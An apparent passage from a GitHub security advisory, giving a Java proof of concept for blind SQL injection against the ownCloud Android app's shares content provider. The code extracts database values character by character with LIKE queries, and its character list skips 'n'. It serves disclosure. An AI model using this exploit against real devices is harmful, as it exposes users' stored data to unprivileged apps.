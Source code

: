 ### Blind SQL injection in `owncloud_database`

The following PoC demonstrates how a malicious application with no special permissions could extract information from any table in the `owncloud_database` database exploiting the issues mentioned above using a Blind SQL injection technique:

```java
package com.example.test;

import android.content.Context;
import android.database.Cursor;
import android.net.Uri;
import android.util.Log;

public class OwncloudProviderExploit {

    public static String blindExploit(Context ctx) {
        String output = "";
        String chars = "abcdefghijklmopqrstuvwxyz0123456789";
        while (true) {
            int outputLength = output.length();
            for (int i = 0; i < chars.length(); i++) {
                char candidate = chars.charAt(i);
                String attempt = String.format("%s%c%s", output, candidate, "%");
                try (Cursor mCursor = ctx.getContentResolver().query(
                        Uri.parse("content://org.owncloud/shares"),
                        null,
                        "'a'=? AND (SELECT identity_hash FROM room_master_table) LIKE '" + attempt + "'",
                        new String[]{"a"}, null)) {
                    if (mCursor == null) {
                        Log.e("ProviderHelper", "mCursor is null");
                        return "0";
                    }
                    if (mCursor.getCount() > 0) {
                        output += candidate;
                        Log.i("evil", output);
                        break;
                    }
                }
            }
            if (output.length() == outputLength)
                break;
        }
        return output;
    }

}
```

## GitHub Security Advisories
